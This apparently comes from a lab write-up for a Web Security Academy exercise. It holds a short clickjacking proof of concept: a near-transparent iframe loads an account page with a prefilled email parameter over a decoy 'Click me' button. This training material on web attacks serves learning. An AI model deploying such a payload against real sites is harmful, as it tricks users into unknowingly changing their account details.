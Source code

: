 ![](assets/2022-07-28-18-52-27.png)

```html
<style>
iframe{
position:absolute;
opacity: 0.1;
z-index:2;
}

.button2 {
      position: relative;
    top: 483px;
    left: 28px;
    width: 127px;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
}
</style>
<div class="button2">Click me</div>
<iframe src="https://0ac800c404e211e4c0607bbd005500d7.web-security-academy.net/my-account/?email=lala@lala.com" width="1000px" height="700px"/>

```
